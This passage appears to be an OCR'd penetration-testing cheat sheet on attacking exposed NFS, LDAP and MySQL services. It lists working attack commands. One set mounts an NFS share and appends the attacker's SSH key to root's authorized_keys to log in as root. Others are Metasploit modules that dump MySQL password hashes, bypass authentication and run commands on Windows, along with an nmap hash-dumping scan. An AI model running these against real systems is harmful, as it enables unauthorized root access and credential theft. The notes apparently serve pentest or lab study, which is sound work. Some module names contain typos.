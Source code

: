             -   mkdir /mnt/new\_back

            -   mount -t nfs \[-o vers=2\] 10.12.0.150:/backup /mnt/new\_back -o nolock

    -   **Add ssh keys**

        -   ssh-keygen

        -   mkdir /mnt/share/

        -   mount -t nfs 192.168.0.10:/secret /mnt/share/

        -   cat \~/.ssh/id\_rsa.pub \>\> /mnt/share/root/.ssh/authorized\_keys

        -   umount /mnt/share

        -   ssh <root@192.168.0.10>

    -   **Metasploit**

        -   auxiliary/scanner/nfs/nfsmount

-   **Ldap port 389, 636, 3268, 3269 Open**

    -    active directory : is a centralized database  used to store username and passwords of users i network instead of saving each user in a single pc in sam file (sam file in windows = /etc/shaddow in linux ) so he can login from any pc registered in network domain database of ad is stored in NTDS/ntds.dit


-   **Mysql port 3306 open**

    -   **local**

        -   mysql -u root -\> Connect to root without password

        -   mysql -u root -p -\> A password will be asked (check someone)

    -   **remote**

        -   mysql -h \<Hostname\> -u root

        -   mysql -h \<Hostname\> -u root\@localhost

    -   **Enumeration**

        -   **Metasploit**

            -   msf\> use auxiliary/scanner/mysql/mysql\_version

            -   msf\> use uxiliary/scanner/mysql/mysql\_authbypass\_hashdump

            -   msf\> use auxiliary/scanner/mysql/mysql\_hashdump -\> Creds

            -   msf\> use auxiliary/admin/mysql/mysql\_enum -\> Creds

            -   msf\> use auxiliary/scanner/mysql/mysql\_schemadump -\> Creds

            -   msf\> use exploit/windows/mysql/mysql\_start\_up

                -   Execute commands Windows, Creds

        -   **Nmap**

            -   nmap -sV -Pn -vv -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 \[ip\] -p 3306
